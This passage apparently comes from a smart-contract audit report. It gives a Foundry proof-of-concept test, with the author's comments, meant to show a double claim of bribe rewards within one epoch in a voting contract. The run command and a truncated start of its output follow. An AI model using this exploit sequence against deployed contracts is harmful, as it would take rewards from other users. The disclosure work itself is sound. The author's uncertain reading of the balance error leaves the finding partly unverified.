 ```solidity
        //hevm.warp(newEpoch());
        hevm.warp(newEpoch() - 1 seconds); /// @audit added for PoC/testing purposes >>> `IMinter(minter).activePeriod() + IMinter(minter).DURATION() + 1 seconds;` >>> i subtracted 1 second to remove the error correction of protocol's testing phases
        uint256 blockTimestamp1 = block.timestamp; /// @audit added for PoC/testing purposes >>> this is now exactly at the start of the next epoch...
        voter.distribute();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes1, TOKEN_100K, "bribes from voting should be earned");

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        assertEq(earnedBribes1, IERC20(bal).balanceOf(admin), "admin should receive bribes");

        // Add BAL bribes to sushiGauge /// @audit added for PoC/testing purposes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); /// @audit added for PoC/testing purposes
        hevm.prank(admin); /// @audit added for PoC/testing purposes
        voter.vote(tokenId1, pools, weights, 0); /// @audit added for PoC/testing purposes

        hevm.warp(blockTimestamp1 + 2 weeks); /// @audit added for PoC/testing purposes >>> this warps to exactly 2 weeks later after the start of the CURRENT epoch, so this should now be at the end of 14 days or 2 weeks, lets see if calculations agree with this assumption:
        uint256 blockTimestamp2 = block.timestamp; /// @audit added for PoC/testing purposes

        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        uint256 totalSecsPerEpoch = 2 weeks; /// @audit added for PoC/testing purposes >>> because an epoch is exactly 2 weeks
        assertEq(totalSecsPerEpoch, block.timestamp - blockTimestamp1); /// @audit added for PoC/testing purposes >>> to check if total secs in 1 epoch is equal to current timestamp - beginning of current/previous epoch?
        assertEq(blockTimestamp1, block.timestamp - totalSecsPerEpoch); /// @audit added for PoC/testing purposes >>> to check if total secs in 1 epoch is equal to current timestamp - beginning of current/previous epoch?
        assertGt(2 weeks + 1 seconds, blockTimestamp2 - blockTimestamp1); /// @audit added for PoC/testing purposes >>> effectively demonstrating that the current timestamp is not part of the next epoch, but still part of the current epoch which started exactly 2 weeks ago...
    }
```
### TEST 1: testing WITH the bug, to demonstrate how the user claims bribe rewards twice in the same epoch:
- check the assertions that I added at the end of the test function, where I attempted to prove that the second rewards claim happens DURING the same epoch as first claim...
- make file test command used: `make test_file_debug_test FILE=Voting TEST=testBugBribeClaiming`.
- please note that I wasnt sure how to get the "transfer amount exceeds balance" error to disappear, but I didnt need to, because this error message shows that the second attempt to claim bribe rewards was NOT prevented, otherwise this error message would not be possible...:
```solidity
$ make test_file_debug_test FILE=Voting TEST=testBugBribeClaiming
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/blahblahblah --match-path src/test/Voting.t.sol --match-test testBugBribeClaiming -vvvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
```